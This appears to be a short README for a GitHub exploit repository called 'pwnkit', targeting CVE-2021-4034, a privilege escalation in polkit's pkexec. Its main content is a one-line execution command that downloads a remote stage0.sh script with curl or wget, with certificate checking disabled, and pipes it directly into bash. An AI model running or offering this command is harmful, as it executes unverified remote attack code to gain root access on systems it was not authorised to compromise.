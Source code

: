 # pwnkit

CVE-2021-4034

Privilege escalation in polkit pkexec function.

**Execution:**<br>

command -v curl >/dev/null && bash -c "$(curl -fsSLk raw.githubusercontent.com/secw01f/pwnkit/main/stage0.sh)" || bash -c "$(wget --no-check-certificate -q0- raw.githubusercontent.com/secw01f/pwnkit/main/stage0.sh)"
